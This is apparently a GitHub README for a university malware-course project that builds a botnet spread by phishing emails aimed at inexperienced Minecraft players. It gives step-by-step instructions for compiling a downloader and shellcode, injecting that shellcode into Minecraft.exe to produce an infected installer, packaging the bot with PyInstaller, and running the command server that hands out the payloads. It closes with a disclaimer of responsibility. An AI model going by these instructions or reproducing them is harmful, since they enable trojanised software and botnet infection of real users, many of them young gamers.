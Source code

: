 # MALW-MinecraftBotnet

MinecraftBotnet is a project develop to create an automated botnet which propagate though phishing emails. The target audience would be unexperienced people that plays Minecraft. This project was develop as Assignment during the Malware's subject of the Master's degree in Cybersecurity (UPC).

> [!CAUTION]
> **DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet guts.

1. [API](/API/): Simple webserver API which will provide all available files to be download and also shedule each machine, inside the botnet, to execute the desire tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via creating a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable and another c++ script, that will be downloaded by the shellcode, in charge of setting up the malware in victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Intruction:

### Compiling shellcode and mainDownloader
Maindownloader:

- `$ cd /Payload`
- `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
- Now, you can place the generated executable inside [API downloads folder](/API/downloads).


Payload (shellcode):
* `$ cd /Payload`
* `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
* Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
* `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
* `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
>
* `$ objdump -d _assembly.exe`
  * ¡Gitbash required or any alternative! *See tmp.txt file to see the desire output
* Paste the .text section inside tmp.txt file
* `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encounter several errors with the gcc distribution, to compile the MainDownloader we have used the `LLVM` distribution. However, for the shellcode part we have used `MinGW` distribution.

> [!IMPORTANT]
> You will need gcc, gcc for mutiplatform (32 bits) and nasm installed.

### Compiling the tasks
* `$ cd /Scripts`
* `$ python -m PyInstaller --onefile --noconsole times.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
* `$ cd /Malware`
* `$ python -m PyInstaller --onefile --noconsole botScript.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
* Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
>
* `$ g++ -c PE.cpp -std=c++17`
* `$ g++ -c InfectPE.cpp -std=c++17`
* `$ g++ -o InfectPE.exe InfectPE.o PE.o`
* `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
* Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.

* `$ cd /API`
* `$ pip install -r requirements.txt`
* `$ python BotnetAPI.py`

> [!IMPORTANT]
> You will need python installed.

> [!TIP]
> Theoretically, you can deploy to docker this API. However, it was not tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.